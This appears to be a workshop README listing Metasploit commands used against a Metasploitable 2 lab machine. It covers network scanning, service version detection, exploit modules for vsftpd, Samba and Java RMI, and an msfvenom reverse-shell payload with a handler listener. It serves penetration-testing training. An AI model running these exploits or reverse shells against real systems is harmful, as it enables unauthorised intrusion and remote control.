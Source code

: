 This file contains the commands showcased during the Null Humla session on `Metasploit for Pentesters` conducted on 27th May in Bhopal. Expecting contributions and improvements.



Inorder to get started with metasploit, the database needs to be setup. Metasploit uses **Postgresql** as its database
service postgresql start

This launches up the metasploit
```bash
msfconsole
```
---
In case database isn't connected even after starting the service 
```bash
msfdb init
```
this command initializes the database again with the very beginning

 Metasploit follows all the bash commands. Like nmap can be used as 
```bash
nmap -sn 192.168.1.1/24 -vv
```
but the results of the options like **hosts** is never stored in the metasploit database. In that case using db_nmap can be fruitful 

it saves all these ips to its database. It is helpful for future reference.

 -sn switch is a host scan in a subnet defined. -vv is the verbose. The number of v's can be increased in order to increase the verbosity.
```bash
db_nmap -sn 192.168.1.1/24 -vv
```
Determines the hosts
```bash
hosts
```
-A does the aggressive scan determining every single information about the host( open ports, banners, keys etc)
```bash
db_nmap -A 192.168.1.101 -vv
```
services determines the services that the available for that host
```bash
services
```
---

> Let's assume metasploitable 2 (Victim) IP to be 192.168.1.101

Multiple workspaces can be created for easy switching and comparing different results.

-a switch adds the new workspace named portscan
```bash
workspace -a portscan
```
This command switches between the workspaces
```bash
workspace portscan
```
search command searches for the keyword in all its modules

If you want to do a tcp scan then use the auxiliary written below in the command. Set the options according to the necessity.

setg (set global variable) can be used instead of set so that you won't have to set it again and again for the same victim 
machine

run is used for running the module

**Here tcp portscan does the same work as that of nmap but doesnt gives the complete listings** (like the name of services and their versions)
```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.101
set THREADS 20
run
```
These are the metasploit modules for searching the versions of the services that are active in a victim's machine
```bash
search name:auxiliary ftp

`grep in metasploit is used  this way`
`name:auxiliary signifies that it will search only in the auxiliary modules`
grep ftp_version name:auxiliary ftp
use auxiliary/scanner/ftp/ftp_version
set...
run...
```
```bash
search name:auxiliary ssh
use auxiliary/scanner/ssh/ssh_version
setg...
run
```
```bash
search name:auxiliary telnet
use auxiliary/scanner/telnet/telnet_version
run
```

Google search port numbers - Find service running on that port - find auxiliary model for identifying version

If you can't find the service running on port, after some time it doesn't hurt to see nmap's finding

> same data
> port  21  vsftpd v 2.3.4
The vulnerabilities in the versions of the following services can be exploited by typing in following commands

search vsftpd name:exploit
use ...
set ...
run

---

> google search samba 3.x exploit

```bash
use exploit/multi/samba/usermap_script
show payloads
set payload ...
set <options>
run
```
Repeat the same for other detected versions

---

```bash
search name:exploit java rmi
use exploit/multi/misc/java_rmi_server
set payload java/meterpreter/reverse_tcp
set options
run
```
This will create a background session. *Java's version of meterpreter has less libraries*
```bash
sessions 
```
Will show a list of sessions
```bash
sessions -i <id>
```
use the meterpreter session 
```bash
sysinfo
getuid
shell
```
In another tab: Tab2
```bash
msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=443 -f elf > evil 
```
Type below in Tab1's meterpreter session
```bash
upload evil
```
Start another msfconsole session in Tab2 and type below
```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <kali ip>
set LPORT 443
run
```
Back to Tab1
```bash
shell 
./evil
```
This will give you a proper `meterpreter`


Resources:
- [Vulnhub](https://www.vulnhub.com/)
- [HacktheBox](https://www.hackthebox.eu/)
- [Pentesters Lab](https://www.pentesterlab.com/)
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
